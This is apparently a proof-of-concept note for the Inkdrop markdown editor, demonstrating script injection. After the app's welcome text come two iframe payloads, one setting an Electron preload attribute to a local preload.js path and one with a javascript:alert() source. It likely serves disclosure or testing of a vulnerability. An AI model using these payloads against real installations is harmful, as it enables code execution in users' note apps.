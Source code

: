 # Welcome to Inkdrop Demo!

### Get to know Inkdrop 🚀

 * [👀 Check a note example](inkdrop://note:example)
 * [📓 Create a notebook](command://core:new-notebook)
 * [✍️ Create a note](command://core:new-note)

'preload.js' need to use absolute path to introduce.
<iframe src=1 preload="C:\Users\root\Downloads\Inkdrop-demo-5.4.1-Windows\resources\app\preload.js"></iframe>
<iframe src=javascript:alert()></iframe>